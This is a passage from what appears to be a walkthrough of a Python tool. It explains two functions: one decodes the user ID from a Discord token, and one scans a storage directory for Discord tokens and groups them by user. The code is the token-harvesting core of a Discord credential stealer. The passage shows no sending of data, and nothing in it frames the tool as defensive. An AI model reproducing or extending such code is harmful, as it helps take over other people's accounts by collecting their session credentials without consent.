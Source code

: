 #### 4.2 `extract_user_id_from_token`

```python
def extract_user_id_from_token(token: str) -> Optional[str]:
    """Extract and validate a user ID from a potential Discord token."""
    try:
        encoded_user_id = token.split(".", maxsplit=1)[0]
        padding_needed = len(encoded_user_id) % 4
        if padding_needed:
            encoded_user_id += "=" * (4 - padding_needed)
        decoded_bytes = base64.b64decode(encoded_user_id, validate=True)
        return decoded_bytes.decode('utf-8')
    except (ValueError, UnicodeDecodeError) as e:
        logger.debug(f"Invalid token format or decoding failed: {e}")
        return None
```

This function:
1. Takes a potential Discord token
2. Extracts the first part (before the first dot)
3. Adds proper Base64 padding if needed
4. Decodes the Base64 string to get the user ID
5. Returns the user ID if valid, None otherwise

### 5. Core Functionality

#### 5.1 `find_discord_tokens`

```python
def find_discord_tokens(storage_path: Path) -> Optional[Dict[str, Set[str]]]:
    """Search for Discord tokens in the specified directory."""
    if not storage_path.exists() or not storage_path.is_dir():
        logger.error(f"Directory not found: {storage_path}")
        return None

    user_tokens: Dict[str, Set[str]] = {}
    processed_files = 0
    found_tokens = 0

    try:
        for file_path in storage_path.iterdir():
            if not file_path.is_file():
                continue

            potential_tokens = extract_tokens_from_file(file_path)
            if not potential_tokens:
                continue

            processed_files += 1
            found_tokens += len(potential_tokens)

            for token in potential_tokens:
                user_id = extract_user_id_from_token(token)
                if user_id:
                    user_tokens.setdefault(user_id, set()).add(token)

        logger.info(f"Processed {processed_files} files, found {found_tokens} potential tokens")
        return user_tokens if user_tokens else None

    except Exception as e:
        logger.error(f"Error processing directory {storage_path}: {e}")
        return None
```
